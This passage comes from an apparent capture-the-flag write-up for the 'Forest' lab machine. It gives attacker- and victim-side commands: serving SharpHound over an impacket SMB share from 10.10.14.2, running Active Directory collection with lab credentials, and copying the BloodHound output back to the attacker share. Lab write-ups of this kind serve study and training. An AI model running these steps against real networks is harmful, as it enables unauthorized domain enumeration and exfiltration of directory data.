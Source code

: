 ```cmd
copy \\10.10.14.2\smbFolder\SharpHound.exe .\SharpHound.exe
.\SharpHound.exe --help
# The specified executable is not a valid application for this OS platform :(
```

> **Attacker Machine**:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support -username al3j0 -password al3j0123
```

> **Victime Machine**:

```cmd
copy \\10.10.14.2\smbFolder\SharpHound.exe .\SharpHound.exe
.\SharpHound.exe --help
# :)
.\SharpHound.exe -c all --ldapusername svc-alfresco --ldappassword s3rvice
```

> **Attacker Machine**:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support -username al3j0 -password al3j0123
```

> **Victime Machine**:

```cmd
copy .\20250626102028_BloodHound.zip \\10.10.14.2\smbFolder\20250626102028_BloodHound.zip
```

> **Attacker Machine**:

```bash
apt install neo4j bloodhound -y
neo4j console
bloodhound &>/dev/null & disown
# :( ??

apt remove neo4j bloodhound -y
```

<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/forest_writeup/Forest_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
